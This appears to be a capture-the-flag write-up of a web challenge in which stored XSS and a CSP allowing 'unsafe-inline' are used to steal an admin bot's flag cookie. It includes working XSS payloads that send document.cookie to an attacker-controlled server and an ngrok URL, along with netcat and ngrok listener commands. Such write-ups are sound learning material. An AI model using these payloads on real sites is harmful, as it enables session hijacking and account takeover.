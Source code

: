 # Web BlogPost

![Blog Post Challenge](img/Challenge.PNG)

## Summary

Blogpost is a easy web challenge that one of the challenges that took most of my time in the CTF. Finding the foothold was an interesting process but this challenge has reminded me not to create a tunnel vision when it comes to hacking and ensuring that I check all files to have a good understanding what the challenge is. (I did not realize about the bot.js and basically had troubles stealing the cookie itself)

## Table of Contents
1. [Setting up environment](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
2. [Enumeration](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
3. [Foothold](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
4. [Exploitation](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
	1.[CSP]
	2.[Using NGROK]

## Setting up the environment

![When unzipped, there should be the docker environments to run](img/settingupchallenge.PNG)

The challenge developers were kind enough to create the environment for individuals to run on their local machine. To create the environment itself, you should have docker installed in your machine. Just a little google can help you (depending on your machine) but here was how I installed it; [Link](https://www.kali.org/docs/containers/installing-docker-on-kali/)

## Enumeration

Playing around with the website and looking at the sourcecode, we have a rough understand of what the website has and the general flow for normal users; 

```
Goes to Homepage
Login
	If no user in website
		make user
	Go to Blog, server takes content from blog
	make own post etc
```

Going through the sourcecodes itself, we also understand that there'll be a bot that actively crawls through the blogpost with the required cookie we have to steal in bot.js

```javascript
export const viewPosts = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await sign({ username: 'admin' });
		await page.setCookie({
			name: "session",
			'value': token,
			domain: "127.0.0.1",
		});
		await page.setCookie({
			name: "flag",
			'value': "REDACTED",
			domain: "127.0.0.1",
		});
		await page.goto('http://127.0.0.1:1337/blog', {
			waitUntil: 'networkidle2',
			timeout: 8000
		});
		await browser.close();
    } catch(e) {
        console.log(e);
    }
};
````

## Getting the foothold

![Form has no sanitisation](img/formsjsnosanitisation.PNG)


Looking through the sourcecode, there is no form of sanitization when it comes to posting. With that in mind, let's try it with a simple XSS. If it works, there'll be our foothole for this challenge.

```javascript
<script>console.log("test")</script>
```

![XSS FootHold](img/XSSFootHold.PNG)

![XSS Success](img/XSSSuccess.PNG)

And it does work! Now with our foothold, what can we do with it?

## Exploitation
During our enumeration, we understand that'll be a bot the crawls through the blog site itself. Hence our objective is to use XSS to steal the "cookie" of the admin which will hold our flag. I made a simple XSS payload that'll force the website to send their user cookie to my server as shown below;

- Payload
```javascript
<script>
document.write('<img src="http://127.0.0.1:8000/?'+document.cookie+'"/>');
</script> 
//Note that the ip address should be your ip address that you want to take the cookies
```
[^1]


- On Our machine (to receive the cookies)
```bash
python -m SimpleHTTPServer
```

However, we encountered the next obstacle in the challenge. The challenge is equipped with content security policy (CSP) with doesn't allow us to steal the cookie as shown below.

![CSP Shenanigans](img/CSPBlockage.PNG)

### What is CSP? ~~and why is it a pain~~

> Content Security Policy ([CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)) and data injection attacks. These attacks are used for everything from data theft, to site defacement, to malware distribution. [^2]

It is a good mitigation practise but with every mitigation, there'll be ways where developers configure such mitigations wrongly. We can verify their policy (found in /src/app/index.js) using [CSP Evaluator](https://csp-evaluator.withgoogle.com/)  

![CSP Bad Configuration](img/CSPMisconfiguration.PNG)

Hence with the mindset of "hey they probably misconfigured something", we can see that they allowed 'unsafe-inline' which can be our proper foothold for this obstacle. Implementing it in CSP is effectively disabling the important part of CSP. You are allowing javascript to run in the XSS. [^3] Hence with that in mind, let us find a payload to bypass it.

```javascript
"/><script>console.log("bypass works");</script>
```
[^4]


![CSP Bypass Works](img/bypasstestWorks.PNG)

It does work, now lets steal the bot's cookie

### Using NGROK
One of the problems which I faced was getting the cookie itself. For some reason, I was only receiving my cookie rather than the bot's cookie. After thinkering around and accidentally solving Blogpost 2 (woops), I learn about [ngrok](https://ngrok.com/). The idea is being able to push localhost apps to the internet with a hostname easily. In this case, I'll be using it to receive the cookie instantly. Thanks John Hammond for the idea as well. [^5]

Setting up ngrok, which will give us our forward hostname
```
ngrok http 9000
```

![Ngork Hostname Output](img/ngrokStuff.PNG)

Setting up listening on localhost
```
nc -nlvp 9000
```
Payload for our shenanigans
```
"/><script>document.location='https://16ba-118-189-213-163.ap.ngrok.io/?c='+document.cookie;</script>
```

This will give us the cookie which is the aim of the challenge! 

![Flag Here!](img/XSSCSPBypassFlag.PNG)



[^1]:[Simple XSS Cookie Stealer](https://infinitelogins.com/2020/10/13/using-cross-site-scripting-xss-to-steal-cookies/)
[^2]:[What is CSP?](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
[^3]:[unsafe-inline is dumb](https://csper.io/blog/no-more-unsafe-inline)
[^4]:[unsafe-inline bypass](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#unsafe-inline)
[^5]:[John's Video on CSP](https://www.youtube.com/watch?v=uU_tvQPCBUo)